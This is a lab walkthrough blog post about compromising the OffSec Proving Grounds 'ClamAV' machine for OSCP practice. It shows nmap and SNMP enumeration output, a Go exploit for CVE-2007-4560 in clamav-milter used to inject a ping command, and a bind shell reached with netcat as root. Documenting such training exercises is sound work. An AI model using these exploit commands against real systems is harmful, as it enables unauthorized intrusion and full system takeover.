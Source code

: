 +++
title = "OSCP Practise - Proving Grounds: ClamAV - Walkthrough"
author = ["Leo Oliver"]
date = 2023-08-19
tags = ["OSCP", "linux"]
categories = ["walkthrough"]
draft = false
+++

## OffSec Proving Grounds: ClamAV - Walkthrough {#offsec-proving-grounds-clamav-walkthrough}

This post contains rough notes explaining my process for exploiting the ClamAV Proving Grounds box while preparing for the OSCP certification.


### My Process {#my-process}

This is a walkthrough for the Offsec Proving Grounds Practise box titled ClamAV.

Firstly I checked what ports were open on the machine by running a port scan with nmap:

{{< bash-collapse >}}
sudo nmap -p- -T4 -A -sS -v --open -oA nmap/clamav 192.168.210.42
(o)# Nmap 7.94 scan initiated Sat Aug 19 14:38:01 2023 as: nmap -p- -T4 -A -sS -v --open -oA nmap/clamav 192.168.210.42
(o)Nmap scan report for 192.168.210.42
(o)Host is up (0.20s latency).
(o)Not shown: 65327 closed tcp ports (reset), 201 filtered tcp ports (no-response)
(o)Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
(o)PORT      STATE SERVICE     VERSION
(o)22/tcp    open  ssh         OpenSSH 3.8.1p1 Debian 8.sarge.6 (protocol 2.0)
(o)| ssh-hostkey:
(o)|   1024 30:3e:a4:13:5f:9a:32:c0:8e:46:eb:26:b3:5e:ee:6d (DSA)
(o)|_  1024 af:a2:49:3e:d8:f2:26:12:4a:a0:b5:ee:62:76:b0:18 (RSA)
(o)25/tcp    open  smtp        Sendmail 8.13.4/8.13.4/Debian-3sarge3
(o)| smtp-commands: localhost.localdomain Hello [192.168.45.240], pleased to meet you, ENHANCEDSTATUSCODES, PIPELINING, EXPN, VERB, 8BITMIME, SIZE, DSN, ETRN, DELIVERBY, HELP
(o)|_ 2.0.0 This is sendmail version 8.13.4 2.0.0 Topics: 2.0.0 HELO EHLO MAIL RCPT DATA 2.0.0 RSET NOOP QUIT HELP VRFY 2.0.0 EXPN VERB ETRN DSN AUTH 2.0.0 STARTTLS 2.0.0 For more info use "HELP <topic>". 2.0.0 To report bugs in the implementation send email to 2.0.0 sendmail-bugs@sendmail.org. 2.0.0 For local information send email to Postmaster at your site. 2.0.0 End of HELP info
(o)80/tcp    open  http        Apache httpd 1.3.33 ((Debian GNU/Linux))
(o)|_http-server-header: Apache/1.3.33 (Debian GNU/Linux)
(o)|_http-title: Ph33r
(o)| http-methods:
(o)|   Supported Methods: GET HEAD OPTIONS TRACE
(o)|_  Potentially risky methods: TRACE
(o)139/tcp   open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
(o)199/tcp   open  smux        Linux SNMP multiplexer
(o)445/tcp   open              Samba smbd 3.0.14a-Debian (workgroup: WORKGROUP)
(o)60000/tcp open  ssh         OpenSSH 3.8.1p1 Debian 8.sarge.6 (protocol 2.0)
(o)| ssh-hostkey:
(o)|   1024 30:3e:a4:13:5f:9a:32:c0:8e:46:eb:26:b3:5e:ee:6d (DSA)
(o)|_  1024 af:a2:49:3e:d8:f2:26:12:4a:a0:b5:ee:62:76:b0:18 (RSA)
(o)No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
(o)TCP/IP fingerprint:
(o)OS:SCAN(V=7.94%E=4%D=8/19%OT=22%CT=1%CU=30611%PV=Y%DS=4%DC=T%G=Y%TM=64E02BA
(o)OS:0%P=x86_64-pc-linux-gnu)SEQ(SP=C5%GCD=1%ISR=D4%TI=Z%II=I%TS=A)OPS(O1=M55
(o)OS:1ST11NW0%O2=M551ST11NW0%O3=M551NNT11NW0%O4=M551ST11NW0%O5=M551ST11NW0%O6
(o)OS:=M551ST11)WIN(W1=16A0%W2=16A0%W3=16A0%W4=16A0%W5=16A0%W6=16A0)ECN(R=Y%DF
(o)OS:=Y%T=40%W=16D0%O=M551NNSNW0%CC=N%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%
(o)OS:Q=)T2(R=N)T3(R=N)T4(R=N)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6
(o)OS:(R=N)T7(R=N)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=C687
(o)OS:%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)
(o)
(o)Uptime guess: 0.002 days (since Sat Aug 19 14:38:01 2023)
(o)Network Distance: 4 hops
(o)TCP Sequence Prediction: Difficulty=197 (Good luck!)
(o)IP ID Sequence Generation: All zeros
(o)Service Info: Host: localhost.localdomain; OSs: Linux, Unix; CPE: cpe:/o:linux:linux_kernel
(o)
(o)Host script results:
(o)| smb-os-discovery:
(o)|   OS: Unix (Samba 3.0.14a-Debian)
(o)|   NetBIOS computer name:
(o)|   Workgroup: WORKGROUP\x00
(o)|_  System time: 2023-08-19T02:39:59-04:00
(o)| smb-security-mode:
(o)|   account_used: guest
(o)|   authentication_level: share (dangerous)
(o)|   challenge_response: supported
(o)|_  message_signing: disabled (dangerous, but default)
(o)|_smb2-time: Protocol negotiation failed (SMB2)
(o)|_clock-skew: mean: 5h59m59s, deviation: 2h49m43s, median: 3h59m58s
(o)| nbstat: NetBIOS name: 0XBABE, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
(o)| Names:
(o)|   0XBABE<00>           Flags: <unique><active>
(o)|   0XBABE<03>           Flags: <unique><active>
(o)|   0XBABE<20>           Flags: <unique><active>
(o)|   \x01\x02__MSBROWSE__\x02<01>  Flags: <group><active>
(o)|   WORKGROUP<00>        Flags: <group><active>
(o)|   WORKGROUP<1d>        Flags: <unique><active>
(o)|_  WORKGROUP<1e>        Flags: <group><active>
(o)
(o)TRACEROUTE (using port 22/tcp)
(o)HOP RTT       ADDRESS
(o)1   204.10 ms 192.168.45.1
(o)2   204.09 ms 192.168.45.254
(o)3   205.81 ms 192.168.251.1
(o)4   205.87 ms 192.168.210.42
(o)
(o)Read data files from: /usr/bin/../share/nmap
(o)OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
(o)# Nmap done at Sat Aug 19 14:40:32 2023 -- 1 IP address (1 host up) scanned in 151.28 seconds
{{< /bash-collapse >}}

I also scanned UDP ports but only the top 2000 since scanning UDP is slow:

{{< bash-code >}}
sudo nmap -sU --top-ports=2000 --min-rate=5000 -v --open 192.168.210.42
(o)Nmap scan report for 192.168.210.42
(o)Host is up (0.21s latency).
(o)Not shown: 1992 open|filtered udp ports (no-response), 6 closed udp ports (port-unreach)
(o)PORT    STATE SERVICE
(o)137/udp open  netbios-ns
(o)161/udp open  snmp
{{< /bash-code >}}

A webserver was running on port 80 so I browsed to the website and saw that there was some binary data there:

{{< figure src="/ox-hugo/2023-08-19_15-13-10_screenshot.png" >}}

Once converted to ascii that resulted in the following string: "ifyoudontpwnmeuran00b"

So just some motiviation for us...

The SNMP UDP port was open so that was the next thing I decided to enumerate. First I tested the community string "public" and that seemed to work so I used `snmpbulkwalk` to enumerate all of the MIBS and save them to a file:

{{< bash-code >}}
snmpbulkwalk -v 2c -c public 192.168.210.42 \> snmp-bulk-out.txt
{{< /bash-code >}}

After manually scanning the output I found a few pieces of useful information:

1.  **Information about the system:**
    SNMPv2-MIB::sysDescr.0 = STRING: Linux 0xbabe.local 2.6.8-4-386 #1 Wed Feb 20 06:15:54 UTC 2008 i686
2.  **ClamAV is installed which is no surprise given the labs name:**
    HOST-RESOURCES-MIB::hrSWRunPath.3782 = STRING: "/usr/local/sbin/clamd"
    HOST-RESOURCES-MIB::hrSWRunPath.3784 = STRING: "/usr/local/sbin/clamav-milter"
3.  **The arguments that ClamAV is running with:**
    HOST-RESOURCES-MIB::hrSWRunParameters.3784 = STRING: "--black-hole-mode -l -o -q /var/run/clamav/clamav-milter.ctl"

At this stage I did a bit of research on what the black hole mode is by googling it. While searching I noticed that there was a RCE vulnerability in the black hole mode for clamav milter: CVE-2007-4560

Since the box has clamav-milter installed and is running SNMP this looked promising.

I found the following exploit written in go:
<https://gist.github.com/0xjbb/fdf1678addf0c957bf2b284b29e4dff4>

First I tested if the RCE exploit worked by trying to execute a ping command on the victim to send a few ping packets to my own machine.

I began monitoring on the tun0 interface for icmp (ping) packets:

{{< bash-code >}}
sudo tcpdump -i tun0 ip proto \\icmp
{{< /bash-code >}}

And then ran the exploit with the ping command:

{{< bash-code >}}
go run CVE-2007-4560.go -h 192.168.210.42 -p 25 -c "ping -c 5 192.168.45.240"
{{< /bash-code >}}

I received the ping packets on kali, showing that the RCE was successful:

{{< bash-code >}}
sudo tcpdump -i tun0 ip proto \\icmp
(o)tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
(o)listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
(o)16:17:05.781204 IP 192.168.210.42 > 192.168.45.240: ICMP echo request, id 41488, seq 1, length 64
(o)16:17:05.781263 IP 192.168.45.240 > 192.168.210.42: ICMP echo reply, id 41488, seq 1, length 64
(o)16:17:06.783327 IP 192.168.210.42 > 192.168.45.240: ICMP echo request, id 41488, seq 2, length 64
(o)16:17:06.783369 IP 192.168.45.240 > 192.168.210.42: ICMP echo reply, id 41488, seq 2, length 64
(o)16:17:07.783880 IP 192.168.210.42 > 192.168.45.240: ICMP echo request, id 41488, seq 3, length 64
(o)16:17:07.783921 IP 192.168.45.240 > 192.168.210.42: ICMP echo reply, id 41488, seq 3, length 64
(o)16:17:08.784464 IP 192.168.210.42 > 192.168.45.240: ICMP echo request, id 41488, seq 4, length 64
(o)16:17:08.784506 IP 192.168.45.240 > 192.168.210.42: ICMP echo reply, id 41488, seq 4, length 64
(o)16:17:09.785971 IP 192.168.210.42 > 192.168.45.240: ICMP echo request, id 41488, seq 5, length 64
(o)16:17:09.786013 IP 192.168.45.240 > 192.168.210.42: ICMP echo reply, id 41488, seq 5, length 64
{{< /bash-code >}}

Now that I knew the machine was vulnerable I used the scripts -b option which executes a bind shell:

{{< bash-code >}}
go run CVE-2007-4560.go -h 192.168.210.42 -p 25 -b
{{< /bash-code >}}

Then I connected to the bind shell with netcat, where I got a shell as the root user so no privilege escalation was necessary:

{{< bash-code >}}
nc 192.168.210.42 31337
whoami
root
cd /root/
ls
dbootstrap_settings
install-report.template
proof.txt
cat proof.txt
{{< /bash-code >}}
